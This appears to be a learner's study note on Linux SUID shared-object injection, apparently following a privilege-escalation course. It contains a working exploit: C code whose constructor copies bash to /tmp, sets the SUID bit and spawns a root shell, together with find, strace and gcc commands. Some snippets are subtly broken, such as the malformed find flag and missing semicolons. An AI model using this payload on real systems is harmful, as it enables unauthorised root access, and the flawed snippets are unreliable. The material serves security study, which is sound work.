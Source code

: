 To find the files with SUID Permissions run the following command:

```shell
find / -type -f -perm 04000 -ls 2>/dev/null
```

Basically what we're looking for is a place where we can inject something.

So, here TCM ran the above command to see what all files have staff in them. And then, he pulled out a file with so in it which is a shared object and then trying to inject a file there. So, when he runs this file, he sees that something is running. To know what exactly is running, he runs this command:

```shell
strace <path_of_file> 2>&1
```

In the output, he finds something interesting where he sees that it is trying to access a file which does not exist on the system. So, we can exploit this and make a malicious file.

This will be similar to what we did in the [[LD_PRELOAD]] escalation path.

```C
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor))

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p")
}
```

Compile the above using this command:

```shell
gcc -shared -fPIC -o <path_to_inject> <path_of_program>
```